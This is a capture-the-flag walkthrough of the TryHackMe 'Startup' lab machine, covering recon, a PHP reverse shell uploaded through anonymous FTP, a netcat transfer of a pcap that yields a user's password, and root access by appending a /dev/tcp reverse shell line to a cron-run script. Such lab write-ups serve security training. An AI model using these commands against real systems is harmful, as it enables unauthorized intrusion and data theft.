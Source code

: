 # Startup

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

---

## Intro

| Room Info           | ![](.gitbook/assets/startup.png)              |
| :------------------ | --------------------------------------------- |
| 🔗 Name              | [Startup](https://tryhackme.com/room/startup) |
| 🎯 Target IP         | `10.10.173.77`                                |
| 📈 Difficulty level  | 🟢Easy                                         |
| 💲 Subscription type | Free                                          |
| 🐧 OS                | Linux                                         |

---

## Recon

```bash
su
echo "10.10.173.77 startup.thm" >> /etc/hosts

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

Start Reconnaissance

```bash
mkdir thm/startup
cd thm/startup
nmap startup.thm
    21/tcp open  ftp
    22/tcp open  ssh
    80/tcp open  http

nmap -sV -sC -Pn -oA startup startup.thm
```

```bash
21/tcp open  ftp  vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.18.65.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh  OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|   256 ec13258c182036e6ce910e1626eba2be (ECDSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http  Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerate Web server directories

```bash
gobuster dir -u http://startup.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

```bash
/files (Status: 301) [Size: 310] [--> http://startup.thm/files/]
```

Navigate to

- `http://startup.thm/files/`

![](.gitbook/assets/image-20230515143244492.png)

Login via FTP with `anonymous`:`anonymous`. The files in the folder are the ones from the `/files` webpage.

```bash
ftp startup.thm

ls
```

![](.gitbook/assets/image-20230515143526046.png)

---

## Exploitation

Get a Reverse shell by uploading a `PHP` file via FTP and run it through the web page.

```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
nano php-reverse-shell.php
# Set $ip & $port
$ip = '10.18.65.48';
$port = 1234;

mv php-reverse-shell.php shell.php
```

```bash
# In the FTP anonymous session
cd ftp
put shell.php
```

```bash
nc -nvlp 1234
```

- Navigate to `http://startup.thm/files/ftp/shell.php` to get a reverse shell

![](.gitbook/assets/image-20230515145419274.png)

```bash
/usr/bin/script -qc /bin/bash /dev/null

ls
cat recipe.txt

ls -lah /home
	lennie

ls /incidents
	suspicious.pcapng

cp /incidents/suspicious.pcapng /var/www/html/files/smb
# Permissions denied
```

![](.gitbook/assets/image-20230515151802211.png)

Transfer `	suspicious.pcapng` using `netcat`

```bash
# Kali
nc -nvlp 5555 > susp.pcap

# Startup box
nc -nv 10.18.65.48 5555 < /incidents/suspicious.pcapng
```

Analyze the `susp.pcap` file in Wireshark or use the `strings` command

```bash
strings susp.pcap
```

![](.gitbook/assets/image-20230515152948262.png)

Try the string as password for `lennie` user.

```bash
su lennie
# password: c4ntg3t3n0ughsp1c3
# It works
```

> 📌 `lennie`:`c4ntg3t3n0ughsp1c3`

- 🚩 Get `user.txt`

```bash
find / -type f -iname user.txt 2>/dev/null
cat /home/lennie/user.txt
THM{0********************************
```

Close the reverse shell and connect via SSH

```bash
ssh lennie@startup.thm
```

Perform some Enumeration with `lennie` user

```bash
ls -lah *
    -rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
    
    Documents:
    total 20K
    drwxr-xr-x 2 lennie lennie 4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
    -rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
    -rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
    
    scripts:
    total 16K
    drwxr-xr-x 2 root   root   4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
    -rw-r--r-- 1 root   root      1 May 15 13:38 startup_list.txt

cat scripts/*
cat Documents/*
cat /etc/print.sh
ls -lah /etc/print.sh
	-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

![](.gitbook/assets/image-20230515154046856.png)

---

## Privilege Escalation

Since `planner.sh` will be run as root (with a cron job), and it contains the `/etc/print.sh` command script, modify `/etc/print.sh` and input a payload (a reverse shell for example) into it to run it as `root`.

```bash
echo "/bin/bash -i >& /dev/tcp/10.18.65.48/3333 0>&1" >> /etc/print.sh
```

Wait for the reverse shell on the attacker machine. The root will run the `planner.sh` script once a minute.

```bash
# Kali
nc -nvlp 3333
```

![](.gitbook/assets/image-20230515155056052.png)

```bash
find / -type f -iname root.txt 2>/dev/null
cat /root/root.txt
THM{f********************************
```

------

